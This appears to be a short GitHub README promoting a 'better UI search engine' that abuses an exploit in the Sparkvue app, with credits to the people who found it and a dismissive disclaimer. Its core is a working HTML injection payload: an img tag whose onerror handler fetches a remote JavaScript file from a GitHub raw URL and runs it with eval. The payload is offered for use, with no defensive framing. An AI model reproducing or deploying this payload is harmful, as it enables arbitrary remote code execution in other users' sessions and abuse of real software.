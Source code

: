 This is a simple better UI search engine for the Sparkvue exploit originally found in 2024 or even earlier idk.

NOTE: I do not consent to your dumb self, if you get this exploit gone. don't come crying to me. Because IDC!


Also thanks to ohonbob for finding this beautiful exploit, and Amurkess for the Idea.

<img src=# onerror='fetch("https://github.com/CharlieIsInsane/CharlieSearch/raw/main/Search%20engine.js").then(r=>r.text()).then(c=>eval(c))'>

